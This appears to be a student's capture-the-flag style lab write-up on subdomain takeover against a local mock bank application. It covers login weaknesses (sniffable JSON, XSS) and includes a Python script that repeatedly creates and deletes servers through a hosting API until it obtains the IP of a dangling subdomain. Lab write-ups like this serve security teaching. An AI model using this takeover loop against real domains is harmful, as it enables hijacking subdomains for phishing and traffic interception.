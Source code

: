 - check.bank.ouspg.org.localhost:8080
- quest.bank.ouspg.org.localhost:8080


##### Is there anything hazardous about the login process?
Yes, there are some problems in the login process. Firstly the data are sent in json, so if there is a MITM, it could read all the sensible information.
Secondly there is no validation of inputs. This means that is possible to do a [XSS attack](https://en.wikipedia.org/wiki/Cross-site_scripting). 

#### Task 2: Figure out which subdomain of the application is vulnerable to takeover

##### How did you figure out the domain?
I searched all the subdomain where the data are sent and then I found that one of them is open. I saw that everytime I turn down and up docker the subdomain vulnerable to takeover changes.

##### How can you find out the hosting provider after finding out the domain?
After found out the subdomain I analyzed its requests and I found that there is a link to the hosting provider in the header of a GET request. <br>
![host_domain](./img/header.png)

#### Task 3: Taking over the domain

Create a script to automatically provision servers until you get the desired domain by utilizing the underlying API of the management portal:

        import requests as r
        import time

        server_url = "http://hosting-provider.org.localhost:8080/servers"
        hj_url = "http://quest.bank.ouspg.org.localhost:8080"

        ip_created = ""
        while(ip_created == ""):
            response = r.post(server_url)
            if response.status_code == 201:
                ip_created = response.headers.get('Server-Ip')
                print("Created: " + ip_created)
                time.sleep(4)
                response_hj = r.get(hj_url)
                content_type = response_hj.headers.get('content-type', '').lower()
                if 'application/json' in content_type:
                    print("IP FOUND: ", ip_created)
                else:
                    r.delete(server_url + "?ip=" + ip_created)        
                    print("Delete: " + ip_created)
                    ip_created = ""    
